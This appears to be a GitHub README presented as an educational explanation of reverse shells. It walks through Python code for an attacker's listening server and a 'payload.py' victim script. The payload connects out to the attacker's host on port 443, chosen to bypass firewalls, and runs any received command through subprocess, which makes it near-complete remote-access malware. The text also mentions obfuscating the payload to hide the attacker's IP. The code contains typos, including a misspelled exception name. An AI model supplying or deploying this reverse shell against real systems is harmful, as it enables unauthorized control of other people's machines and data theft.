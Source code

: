 # Reverse-Shell
A reverse shell is a shell session established on a connection that is initiated from a remote machine, not from the attacker’s host. Attackers who successfully exploit a remote command execution vulnerability can use a reverse shell to obtain an interactive shell session on the target machine and continue their attack. Reverse shells can also work across a NAT or firewall.
One of the most known frameworks that ethical hackers use in order to create and commnunicate with a reverse shell is MSFVenom and MSFconsole. 

How does it work?? 
To understand the mecanism i decided to write a simple reversehell in python in order to expalin the basics of the reverse shell theory.

# Requirements
To do so we need these common python libraries: 

### socket:
This module provides access to the BSD socket interface. It is available on all modern Unix systems, Windows, MacOS, and probably additional platforms.
The Python interface is a straightforward transliteration of the Unix system call and library interface for sockets to Python’s object-oriented style: the socket() function returns a socket object whose methods implement the various socket system calls. Parameter types are somewhat higher-level than in the C interface: as with read() and write() operations on Python files, buffer allocation on receive operations is automatic, and buffer length is implicit on send operations.

### OS
This module provides a portable way of using operating system dependent functionality. We are going to use this library in order to execute the commands sent by the attacker on the victim machine

### sys
Python sys module has several methods and variables that can alter various aspects of the Python runtime environment. It permits operating on the interpreter by giving access and information about the constants, variables, and functions that have a strong interaction with the interpreter.

### subprocess
The subprocess module allows you to spawn new processes, connect to their input/output/error pipes, and obtain their return codes.

# Code explication

## server.py
this is the script the hacker will be running on his machine/server this code is going to accpet and establish communication with the client side.

Coding the server side we only need the sockett libaray.

```
server_host= "0.0.0.0"
server_port= 443
data_size = 1024 * 128
SEPARATOR = "<sep>"
cyber = socket.socket()
```
As you can understand from the variable names the server_host is the IP address of our server/attacker_machine we used the IP 0.0.0.0 in order to make the server reachable through all the IPv4 addresses of the server. For the server_port I used the port 443. We can use any port we want but the port 80 and 443 are widely used to bypass firewalls. data_size is the maximum ammoun of data that the client can send to the server and viceversa.
SPERATOR is the seperation between the data sent or received.

then I created a socket and I called it cyber this is what we are going to use in the second part of our code.

Let's bind the socket that we created to out server IP and port that we initiated in the first two commands.
```
cyber.bind((server_host,server_port))
```
One of the most important part in creating such server is that it should have the ability to listen and accept incoming requests that why we need this two lines:
```
cyber.listen(10)
client_socket, client_ip = cyber.accept()
```
the listen function will allow us to listen to the incoming connections and the paramater 10 I used is the maximum length to which the queue of pending connections for sockfd may grow. That means if we receive 12 requests before we accept the connection then 2 of these requests will be droped.
The second line means that we accepted the connection from the client (our victim machine) and we stored the victim_socket and the victim_adress in two different variabales.
```
print(f"{client_ip[0]}:{client_ip[1]} Connected!")
```
This output will have the following format IP:PORT connected!
The first step we will do after having a connected client is to try and get the working directory on the victims devices this is why we will use the following code:
```
cmd = client_socket.recv(data_size).decode()
print("[+] Current working directory:", cmd)
```
A lot of people will be aseked why I used the decode function will because we need to encode the data in bytes to be sent theough the victim socket.
The main process of sending commands to the victims device will be in this part of the code:
```
while True:
    command = input(f"{cmd}~$ ")
    if not command.strip():
        continue
    client_socket.send(command.encode())
    if command.lower() == "exit":
        break
    output = client_socket.recv(data_size).decode()
    results,cmd = output.split(SEPARATOR)
    print(results)
```
basically what we are doing is that we are verifying if the command which is the input of the hacker is not blank if it's the case then we will encode the command and send it to the victim. If the command in lower case is exit then we will break out that means we will shutdown the server and then the communication with the client will die. If the process is executed correctly then we can receaive data from the victim and output. This is what the last 3 lines of code are doing on our server code.

## payload.py
The payload is the portion of the malware which performs malicious action. In our case the payload is the script that will be running on the victims device. 

let's start by importing the needed libraries and setting up the varaibles we will use in order to establish the communication with the attackers server.
```
server_host = #server_IP
server_port = 443
data_size = 1024 * 128
SEPARATOR = "<sep>"
victim = socket.socket()
victim.connect((server_host,server_port))
```
This is made for educational purposes and the main goal is to explain the theory behind revere shells this is why we cab see that the hacker's IP will be in plain text. In real life senarios the payload is obfuscated so it will be so hard to identify the hackers IP.
For this part the only difference we got from the server code is in the last line victim.connect and not bind because the victim will try to connect on the server we already created.
Well the server is waiting fot our working directory this is why we should send it first to do that we will use the OS library to run a local command wich is cwd the current working directory and we will send it through the socket this is done by the following code:

```
cmd = os.getcwd()
victim.send(cmd.encode())
```

the main job of the payload is that it will execute the commands sent by the attacker to do so we need to accept the received data using this line of code:
```
    command = victim.recv(data_size).decode()
    splited_command= command.split()
```
all what we have to do is to verify that the command is not blank, if it's an exit then we will shutdown the communication then we will store the output of the executed commands and send it back to the server. All of this is made possible by this code:
```
while True:
    command = victim.recv(data_size).decode()
    splited_command= command.split()
    if command.lower() == "exit":
        break
    if splited_command[0].lower() == "cd":
        try:
            os.chdir(''.join(splited_command[1:]))
        except FileNotFounfError as e:
            output = str(e)
        else:
            output = ""
    else:
        output = subprocess.getoutput(command)
    cmd = os.getcwd()
    message = f"{output}{SEPARATOR}{cmd}"
    victim.send(message.encode())
victim.close()
```

author: cybereagle2001

used refrences : pythoncode - acunetix - docs.python - stackoverflow -wikipedia 
